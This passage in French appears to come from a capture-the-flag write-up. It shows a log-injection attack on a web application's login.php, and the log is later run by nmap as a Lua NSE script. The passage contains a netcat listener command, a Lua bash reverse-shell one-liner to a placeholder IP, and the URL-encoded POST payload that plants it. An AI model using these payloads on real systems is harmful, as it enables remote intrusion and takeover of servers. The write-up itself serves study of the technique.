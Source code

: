 Il existe toutes sortes de façon d'établir un "listener" et des services en lignes sont disponibles tel que [ngrok](https://ngrok.com/).
Dans mon cas, je fait du port forwarding dans mon routeur vers mon PC, sur lequel j'ai un [NetCat](https://linux.die.net/man/1/nc) qui attend au port 61002.

`nc -lvnp 61002`

On peut exécuter notre shell . On met ce code a l'intérieur de la méthode `action` qui est une fonction obligatoire d'un script NSE.
`prerule` est un dummy qui est là seulement car nmap en a besoin.

```lua
prerule = function() return true;end
action = function(host, port) 
    os.execute("bash -c 'sh -i >& /dev/tcp/42.101.420.69/61002 0>&1'")
end

```

Remarquez que définir une fonction a pratiquement le même format que le fichier log. Plutôt commode!

### La livraison

Le code de `login.php` fait en sorte qu'on doit absolument spécifier `username`et `password`. Par contre ça peut briser la syntaxe de notre script
Vu que le format du log a une syntaxte Lua valide, si on spécifie une constante numérique tel que '1' dans `username` et `password`, on se trouve a avoir un formulaire qui passe la validation et qui est un script Lua valide.

Voici notre payload pour le POST /login.php (URL encoded et sur une seule ligne):

>prerule=function()return%20true%3bend&action=function(host%2c%20port)%20os.execute(%22bash%20-c%20'sh%20-i%20%3e%26%20%2fdev%2ftcp%2f42.101.420.69%2f61002%200%3e%261'%22)%3b%20end&username=1&password=2

L'application admin met a notre disposition une page pouvant afficher le contenu d'un fichier log en spécifiant un paramètre `file` au POST /logs.php

Si on soumet notre requète sans être authentifié et sous une nouvelle session. Un nouveau fichier log devrait avoir le contenu suivant:

```lua
-- failed authentication attempt --
prerule = function()return true;end
action = function(host, port) os.execute("bash -c 'sh -i >& /dev/tcp/42.101.420.69/61002 0>&1'"); end
username = 1
password = 2

```

Une fois le fichier présent sur le serveur, suffit de lancer un nmap sous une nouvelle session en spécifiant le log comme script NSE.
>Note: on utilise une nouvelle session pour éviter de corrompre notre payload avec le résultat du Nmap.
